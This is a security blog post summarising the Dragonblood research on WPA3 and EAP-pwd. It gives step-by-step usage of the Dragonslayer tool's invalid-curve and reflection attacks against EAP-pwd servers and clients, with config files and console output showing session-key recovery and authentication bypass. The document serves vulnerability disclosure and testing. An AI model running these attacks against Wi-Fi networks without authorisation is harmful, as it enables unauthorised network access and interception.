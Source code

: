 ```yaml
---
layout: post
title:  "DragonBlood - WPA3 Attack toolkit"
description: "An overview of a newly released attack toolkit against WPA3"
date:   2019-04-10 13:49:33 +0000
tags: [Malware, Incident Response, Red-Team, Pentesting, Offensive, Defensive]
---
```


![Dragonfly WPA3 logo](/assets/dragonfly.png)

## Dragonblood
Currently, all modern Wi-Fi networks use WPA2 to protect transmitted data. However, because WPA2 is more than 14 years old, the Wi-Fi Alliance recently announced the new and more secure WPA3 protocol. One of the main advantages of WPA3 is that, thanks to its underlying Dragonfly handshake, it's near impossible to crack the password of a network. Unfortunately, researchers found that even with WPA3, an attacker within range of a victim can still recover the password of the Wi-Fi network. 

The Dragonfly handshake, which forms the core of WPA3, is also used on certain Wi-Fi networks that require a username and password for access control. That is, Dragonfly is also used in the EAP-pwd protocol. Unfortunately, our attacks against WPA3 also work against EAP-pwd, meaning an adversary can even recover a user's password when EAP-pwd is used. Moreover, we also discovered serious bugs in most products that implement EAP-pwd. These allow an adversary to impersonate any user, and thereby access the Wi-Fi network, without knowing the user's password. Although we believe that EAP-pwd is used fairly infrequently, this still poses serious risks for many users, and illustrates the risks of incorrectly implementing Dragonfly.

The technical details behind our attacks against WPA3 can be found in our detailed research paper titled [Dragonblood: A Security Analysis of WPA3's SAE Handshake](https://papers.mathyvanhoef.com/dragonblood.pdf)

### Tools
Mathy Vanhoef (NYUAD) and Eyal Ronen (Tel Aviv University & KU Leuven) have released some scripts to test for certain vulnerabilities within the Dragonfly protocol within WPA3:
 * [Dragonslayer](https://github.com/vanhoefm/dragonslayer): implements attacks against EAP-pwd (to be released shortly).
 * [Dragondrain](https://github.com/vanhoefm/dragondrain-and-time): this tool can be used to test to which extend an Access Point is vulnerable to denial-of-service attacks against WPA3's SAE handshake.
 * [Dragontime](https://github.com/vanhoefm/dragondrain-and-time): this is an experimental tool to perform timing attacks against the SAE handshake if MODP group 22, 23, or 24 is used. Note that most WPA3 implementations by default do not enable these groups.
 * [Dragonforce](https://github.com/vanhoefm/dragonforce): this is an experimental tool which takes the information recover from our timing or cache-based attacks, and performs a password partitioning attack. This is similar to a dictionary attack.

### Dragonslayer / EAP-PWD Attacks
### Testing attacks against the server
#### Preparation
Edit the file dragonslayer/client.conf and specify:
 * The SSID of the network name using the ssid parameter.
 * A valid EAP-pwd username using the identity parameter. The attacks don't work with an invalid username.
 * Leave the other parameters untouched.

An example of dragonslayer/client.conf is the following:
```
network={
	ssid="dragonblood"
	key_mgmt=WPA-EAP
	eap=PWD
	identity="bob"
	password="unknown password"
}
```

#### Invalid curve attack
To test whether an EAP-pwd server is vulnerable to invalid curve attacks, start dragonslayer-client.sh using the -a 1 parameter. You must also specify the wireless interface being used with the -i parameter. For example:
```
[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
[sudo] password for mathy: 
Successfully initialized wpa_supplicant
wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=WORLD
wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=COUNTRY alpha2=US
wlp2s0: SME: Trying to authenticate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
wlp2s0: Trying to associate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
wlp2s0: Associated with 38:2c:4a:c1:69:c0
wlp2s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
wlp2s0: CTRL-EVENT-EAP-STARTED EAP authentication started
wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
wlp2s0: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 52 (PWD) selected
EAP-PWD (peer): server sent id of - hexdump_ascii(len=21):
     74 68 65 73 65 72 76 65 72 40 65 78 61 6d 70 6c   theserver@exampl
     65 2e 63 6f 6d                                    e.com           
EAP-pwd: provisioned group 19
[03:21:18] 38:2c:4a:c1:69:c0: sending a scalar equal to zero
[03:21:18] 38:2c:4a:c1:69:c0: sending generator of small subgroup as the element
[03:21:18] 38:2c:4a:c1:69:c0: trying to recover session key..
[03:21:18] 38:2c:4a:c1:69:c0: successfully recovered the session key. Server is vulnerable to invalid curve attack!
wlp2s0: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
wlp2s0: PMKSA-CACHE-ADDED 38:2c:4a:c1:69:c0 0
wlp2s0: WPA: Key negotiation completed with 38:2c:4a:c1:69:c0 [PTK=CCMP GTK=CCMP]
wlp2s0: CTRL-EVENT-CONNECTED - Connection to 38:2c:4a:c1:69:c0 completed [id=0 id_str=]
```
Notice that the tool will display Server is vulnerable to invalid curve attack! if it is indeed vulnerable. If this message is not vulnerable, try performing the attack a few times again. If none of the attack attempts succeed, the EAP-pwd server is not vulnerable to this specific attack. In this case, also try attacking the EAP-pwd server using a small variant of the invalid curve attack using the -a 2 parameter:
```
 [mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 2
 ...
```
Similar to the case above, it will display Server is vulnerable to invalid curve attack! if it is indeed vulnerable. If this message is not displayed after several attempts, the EAP-pwd server is not vulnerable to this specific attack.

We also recommend that you audit the server code itself. It can be that these specific attacks don't work, but that more specialized attacks would still work.

#### Reflection attack
To test whether an EAP-pwd server is vulnerable to a reflection attack, start dragonslayer-client.sh using the -a 0 parameter. You must also specify the wireless interface being used with the -i parameter. For example:
```
[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 0
Successfully initialized wpa_supplicant
wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=WORLD
wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=COUNTRY alpha2=US
wlp2s0: SME: Trying to authenticate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
wlp2s0: Trying to associate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
wlp2s0: Associated with 38:2c:4a:c1:69:c0
wlp2s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
wlp2s0: CTRL-EVENT-EAP-STARTED EAP authentication started
wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
wlp2s0: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 52 (PWD) selected
EAP-PWD (peer): server sent id of - hexdump_ascii(len=21):
     74 68 65 73 65 72 76 65 72 40 65 78 61 6d 70 6c   theserver@exampl
     65 2e 63 6f 6d                                    e.com           
EAP-pwd: provisioned group 19
[03:22:11] 38:2c:4a:c1:69:c0: Reflected server scalar and element in commit frame
[03:22:11] 38:2c:4a:c1:69:c0: Skipping verification of recieved confirm value
[03:22:11] 38:2c:4a:c1:69:c0: Reflected confirm value in confirm frame
wlp2s0: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
[03:22:11] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
wlp2s0: PMKSA-CACHE-ADDED 38:2c:4a:c1:69:c0 0
[03:22:12] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
[03:22:13] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
[03:22:14] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
```

The tool will display server is vulnerable to reflection attack! if it is vulnerable. If this message is not display, try executing the attack several times. If the server is never detected as being vulnerable, it is not vulnerable to this specific attack.

### Testing attacks against the client
#### Preparation
First modify dragonslayer/hostapd.conf and edit the line interface= to specify the Wi-Fi interface that will be used to execute the tests. Note that for all tests, once the script is running, you must let the device being tested connect to the SSID dragonslayer with as username bob and the password can be anything. You can change settings of the AP by modifying dragonslayer/hostapd.conf.

#### Invalid curve attack
To test whether an EAP-pwd client is vulnerable to invalid curve attacks, start dragonslayer-server.sh using the -a 1 parameter. Using the server is running, connect to it with the client you want to test. For example:
```
[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-server.sh -a 1
Configuration file: hostapd.conf
Using interface wlp2s0 with hwaddr 8a:f5:40:f9:5d:c0 and ssid "dragonblood"
wlp2s0: interface state UNINITIALIZED->ENABLED
wlp2s0: AP-ENABLED 
wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.11: authenticated
wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.11: associated (aid 1)
wlp2s0: CTRL-EVENT-EAP-STARTED c4:e9:84:db:fb:7b
wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
EAP-pwd: provisioned group 19
[03:48:15] c4:e9:84:db:fb:7b: sending a scalar equal to zero
[03:48:15] c4:e9:84:db:fb:7b: sending generator of small subgroup as the element
[03:48:15] c4:e9:84:db:fb:7b: configured X-coordinate of subgroup generator as session key
[03:48:15] c4:e9:84:db:fb:7b: Successfully recovered the session key. Client is vulnerable to invalid curve attack!
wlp2s0: CTRL-EVENT-EAP-SUCCESS c4:e9:84:db:fb:7b
wlp2s0: STA c4:e9:84:db:fb:7b WPA: pairwise key handshake completed (RSN)
wlp2s0: AP-STA-CONNECTED c4:e9:84:db:fb:7b
wlp2s0: STA c4:e9:84:db:fb:7b RADIUS: starting accounting session 35BB5B4BB3793544
wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.1X: authenticated - EAP type: 0 (unknown)
```
The tool will display Client is vulnerable to invalid curve attack! if it is vulnerable. If this message is not display, try executing the attack several times. If the server is never detected as being vulnerable, it is not vulnerable to this specific attack.

## Papers
* https://papers.mathyvanhoef.com/dragonblood.pdf

